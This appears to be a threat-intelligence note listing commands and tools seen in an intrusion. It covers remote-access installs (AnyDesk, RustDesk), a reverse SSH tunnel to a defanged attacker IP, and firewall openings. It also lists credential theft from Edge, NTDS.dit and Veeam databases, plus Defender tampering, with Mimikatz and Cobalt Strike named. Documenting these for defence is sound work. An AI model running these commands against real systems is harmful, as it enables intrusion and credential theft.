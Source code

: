 ```
“C:\WINDOWS\System32\WindowsPowerShell\v1.0\powershell.exe" -command
"(new-object
System.Net.WebClient).DownloadFile('hxxp://download[.]anydesk[.]com/AnyDesk
.exe';, 'C:\ProgramData\AnyDesk.exe')"
```

- rustdesk

```
"C:\Windows\System32\cmd.exe" /C
C:\Users\ADMINI~1\AppData\Local\Temp\RustDesk_install.bat
 
sc create RustDesk binpath= "\"C:\Program Files\RustDesk\RustDesk.exe\"
--import-config
\"C:\Users\Administrator\AppData\Roaming\RustDesk\config\RustDesk.toml\
"" start= auto DisplayName= "RustDesk Service"
```

- ScreenConnect
- Reverse shells on esxi (python)
- Ligolo-ng tunnel util
- Cobalt Strike
- Payloads pulled from temp.sh
- ssh
`ssh -R 5555 root@170.130.165[.]42`
- `netsh advfirewall firewall add rule name="allow RemoteDesktop" dir=in protocol=TCP localport=3389 action=allow`
- `New-NetFirewallRule -Name sshd -DisplayName 'OpenSSH Server (sshd)' -Enabled True -Direction Inbound -Protocol TCP -Action Allow -LocalPort 22`

<br>

Credential Access:
 - `cmd.exe /Q /c copy \"C:\Users\[redacted]\AppData\Local\Microsoft\Edge\User Data\Default\Login Data" "C:\Windows\Temp\1753954887.8450267"`
 - `"C:\Windows\system32\wbadmin.exe" start backup -backupTarget:\\localhost\c$\ProgramData\ -include:C:\Windows\NTDS\NTDS.dit C:\Windows\System32\config\SYSTEM C:\Windows\System32\config\SECURITY -quiet`
 - `Veam-get-creds.ps1`
 - https://github.com/byt3n33dl3/NetExec/blob/8dfd17e4500523a154467ae9c85f0a41c1a16813/nxc/data/veeam_dump_module/veeam_dump_postgresql.ps1
 - `VeeamHax.exe`
 - NTDS.dit , system hive extraction
 - Mimikatz
 - DCSync
 - DCE-RPC requestt to the ICertPassage Service (UnPAC the Hash)
 - veeam credentials via `sqlcmd -S localhost\REDACTED_USERNAME -E -y500 -s ";" -Q
"SELECT * FROM [VeeamBackup].[dbo].[Credentials];"`

<br>

Disabling Security software
- `Users\REDACTED\AppData\Local\Temp\hlpdrv.sys`
- `Users\REDACTED\AppData\Local\Temp\rwdrv.sys`
- `"C:\Windows\system32\SystemSettingsAdminFlows.exe" Defender DisableEnhancedNotifications 1`

